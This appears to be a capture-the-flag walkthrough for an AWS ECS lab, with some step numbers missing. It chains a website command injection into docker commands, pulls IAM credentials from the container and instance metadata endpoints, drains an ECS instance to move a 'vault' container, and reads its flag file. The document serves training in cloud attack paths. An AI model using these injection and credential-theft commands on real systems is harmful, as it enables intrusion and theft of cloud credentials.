 1. Find the command injection vulnerability in the website.

    ```bash
    ; echo 'hello world'
    ```

3. Using command injection list the container on the host and get the ID for the privd container.

   `; docker ps --format '{{.Names}} -- '`

   The privd docker ID will be the first field in the output from the following command.

   `; docker ps | grep privd`

4. Using command injection get the container credentials from the privd container as well as the host ECS instance.

   `; docker exec <container id> sh -c 'wget -O- 169.254.170.2$AWS_CONTAINER_CREDENTIALS_RELATIVE_URI'`
   `; docker exec ba301a00c81b sh -c 'wget -O- 169.254.169.254/latest/meta-data/iam/security-credentials/ecs-agent'`

5. With the privd credentials list the clusters in the account then enumerate the tasks.

   ```
   aws ecs list-clusters --profile privd
   tasks=$(aws ecs list-tasks --cluster my-cluster --profile ecs --query taskArns --out text)
   aws ecs describe-tasks --cluster my-cluster --profile ecs --tasks $tasks --query 'tasks[].[taskDefinitionArn, taskArn, containerInstanceArn]' --out text
   ```

6. Set the container instance that is running the vault container to DRANING

    `aws ecs update-container-instances-state --cluster my-cluster --container-instances <> --status DRAINING`

9. Wait for "Vault" container to be rescheduled, this can be checked by running docker via command injection.

    `; docker ps | grep vault`

10. Using the command injection on the website get the flag from the "vault" container.

    ```
    ; docker exec 8e9be4ebf17b ls
    ; docker exec 8e9be4ebf17b cat FLAG.TXT
    ```